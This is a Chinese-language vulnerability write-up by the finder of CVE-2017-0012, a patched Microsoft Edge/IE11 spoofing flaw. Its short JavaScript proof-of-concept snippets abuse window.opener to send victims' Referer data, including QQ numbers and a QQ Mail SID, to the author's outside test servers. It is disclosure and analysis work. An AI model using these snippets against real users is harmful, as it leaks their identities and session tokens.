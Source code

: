 > 原文链接: https://www.anquanke.com//post/id/85708 


# 【漏洞分析】CVE-2017-0012：Microsoft Edge / IE 浏览器欺骗漏洞（昨日补丁）


                                阅读量   
                                **133786**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p1.ssl.qhimg.com/t0109d361f2ea63f3dd.jpg)](https://p1.ssl.qhimg.com/t0109d361f2ea63f3dd.jpg)**

****

作者：[xsseng](http://bobao.360.cn/member/contribute?uid=1377236980)

预估稿费：400RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

2017年3月14日，也就是两天前，微软补丁日修复了Microsoft Edge 中的多个漏洞。当用户访问攻击者精心构造的网页，最严重的漏洞可能允许远程代码执行。成功利用这些漏洞的攻击者可以控制受影响的系统。其中本篇文章为漏洞发现者对CVE-2017-0012 Microsoft 浏览器欺骗漏洞进行分析。

微软官方公告：[https://technet.microsoft.com/zh-cn/library/security/MS17-007](https://technet.microsoft.com/zh-cn/library/security/MS17-007) 

**[![](https://p5.ssl.qhimg.com/t01e9a6fc7a37f8f874.png)](https://p5.ssl.qhimg.com/t01e9a6fc7a37f8f874.png)**

**影响版本**

Microsoft Edge

Internet Explorer 11

<br>

**漏洞分析**

parent.window.opener.location可以使打开他的窗口location跳转到其他的域名，在尝试使用跨域的时候，我首先发现了这个问题，以下是我发现问题时候的测试代码。

```
parent.window.opener.location = 'http://www.qq.com';
```

我通过360SRC的友情链接打开了360的appscan.360.cn，尝试在appscan网页的控制台输入这一段JS，可以看到JS注入后，360SRC的网页变成了腾讯首页。

[![](https://p2.ssl.qhimg.com/t011ebfa97f122912e4.jpg)](https://p2.ssl.qhimg.com/t011ebfa97f122912e4.jpg)

而就在此时我发现appscan的控制台居然报错了，并且内容属于腾讯首页的资源报错。

[![](https://p0.ssl.qhimg.com/t012fe3355a54892da0.jpg)](https://p0.ssl.qhimg.com/t012fe3355a54892da0.jpg)

如图，我们发现本来不属于appscan站点的错误，显示在了appscan的控制台，随后我在Chrome、Firefox、IE8中测试发现均不存在该问题。于是第一时间就想到了跨域，会不会存在跨域问题呢？所以很快写了一段JS尝试，希望能达到跨域执行js。

```
function func()`{`
parent.window.opener.location = 'http://www.qq.com';
`}`
if (parent.window.opener) `{`
parent.window.opener.location = 'javascript:alert("xsseng")';setTimeout(func,"3000");
`}`;
```

[![](https://p3.ssl.qhimg.com/t01d04b0d16173c08c7.jpg)](https://p3.ssl.qhimg.com/t01d04b0d16173c08c7.jpg)

浏览器阻止了我的操作，本来问题到这里就应该结束，但是后来发现了其他的问题，当我执行以下代码的时候，我们可以看到如下的HTTP请求中的REFERER。

[![](https://p1.ssl.qhimg.com/t01a3c63c8014b791fd.jpg)](https://p1.ssl.qhimg.com/t01a3c63c8014b791fd.jpg)

我们通过appscan站点执行js，referer头却是security站点，这一点是违反了W3C的标准（所有浏览器在这里的处理方式都是appscan站点），为了探究问题是否只是存在于同一个子域下，我把测试站点换到了两个完全不同的域。

<br>

**利用场景**

我写了一段代码，来要求i.qq.com请求我的测试站点，以获得QQ空间的来源,其中的ref.php直接输出$_SERVER["HTTP_REFERER"]。



```
function func()`{`
parent.window.opener.location = 'http://www.inetsrc.com/ref.php';
`}`
if (parent.window.opener) `{`
parent.window.opener.location = 'http://i.qq.com';setTimeout(func,"3000");
`}`;
```

[![](https://p0.ssl.qhimg.com/t014c1e203a666b446c.jpg)](https://p0.ssl.qhimg.com/t014c1e203a666b446c.jpg)

会发现在测试站点中，不仅可以得到i.qq.com的请求，如果我们登陆QQ空间，那么i.qq.com会跳转到user.qzone.qq.com并且泄露了你的QQ号。那么问题不仅仅会造成更多的CSRF漏洞，如果用户登陆了邮箱，可以通过控制好setTimeout来获取可以导致用户信息泄露的参数，为此我搭建了https一个测试站点用来测试某邮箱系统，尝试读取SID。

```
function func()`{`
parent.window.opener.location = 'https://www.esqsm.com/index.php';
`}`
if (parent.window.opener) `{`
parent.window.opener.location = 'https://mail.qq.com';setTimeout(func,"3000");
`}`;
```

[![](https://p2.ssl.qhimg.com/t01b3c982f328b5f517.jpg)](https://p2.ssl.qhimg.com/t01b3c982f328b5f517.jpg)

由于QQ邮箱配置了SSL，所以接收来源的站点也需要配置SSL。这里由于登陆了QQ邮箱，访问mail.qq.com的时候会跳转到邮箱的首页，导致location的更换，referer就泄露了用户信息。

<br>

**参考资料**

[https://www.symantec.com/connect/blogs/2017-3](https://www.symantec.com/connect/blogs/2017-3) 

[http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0012](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0012) 

[http://www.securityfocus.com/bid/96085/info](http://www.securityfocus.com/bid/96085/info) 
